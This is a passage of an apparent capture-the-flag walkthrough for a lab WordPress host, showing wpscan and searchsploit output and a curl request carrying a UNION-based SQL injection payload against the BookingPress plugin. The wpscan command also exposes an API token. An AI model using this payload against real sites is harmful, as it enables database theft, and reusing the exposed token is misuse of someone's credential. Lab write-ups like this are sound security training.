 ```
$ wpscan --api-token FQVv71ka5LaR9z8xOr4saXCg0vAMyKKD4VQS2eOymUQ --enumerate p,t,u --url http://metapress.htb/ --plugins-detection aggressive
[!] Title: WordPress 5.6-5.7 - Authenticated XXE Within the Media Library Affecting PHP 8
 |     Fixed in: 5.6.3
 |     References:
 |      - https://wpscan.com/vulnerability/cbbe6c17-b24e-4be4-8937-c78472a138b5
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29447
 |      - https://wordpress.org/news/2021/04/wordpress-5-7-1-security-and-maintenance-release/
 |      - https://core.trac.wordpress.org/changeset/29378
 |      - https://blog.wpscan.com/2021/04/15/wordpress-571-security-vulnerability-release.html
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-rv47-pc52-qrhh
 |      - https://blog.sonarsource.com/wordpress-xxe-security-vulnerability/
 |      - https://hackerone.com/reports/1095645
 |      - https://www.youtube.com/watch?v=3NBxcmqCgt4
```

This was the main exploit I found interesting because the version running on `metapress.htb` is version 5.6.2, while this was patched in 5.6.3. However, I don't have any credentials. Also, `wpscan` didn't pick up on any plugins for whatever reason.

While clicking on the URL within the blog post, I noticed that it was using a certain plugin.

<figure><img src="../../../.gitbook/assets/image (2473).png" alt=""><figcaption></figcaption></figure>

This is a plugin that has a lot of vulnerabilities:

```
$ searchsploit wordpress booking
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
WordPress Plugin Appointment Booking Calendar 1.3.34 - CSV | php/webapps/48204.txt
WordPress Plugin Booking Calendar 3.0.0 - SQL Injection /  | php/webapps/44769.txt
WordPress Plugin Booking Calendar 4.1.4 - Cross-Site Reque | php/webapps/27399.txt
WordPress Plugin Booking Calendar 6.2 - SQL Injection      | php/webapps/40189.txt
```

The traffic reveals that this is version 1.0.10. Googling for exploits related to this plugin returns this page with a PoC:

{% embed url="https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357" %}

Using the exact PoC doesn't work though:

```
$ curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' \ 
  --data 'action=bookingpress_front_get_category_services&_wpnonce=8cc8b79544&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Sun, 07 May 2023 03:24:52 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
X-Powered-By: PHP/8.0.24
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
```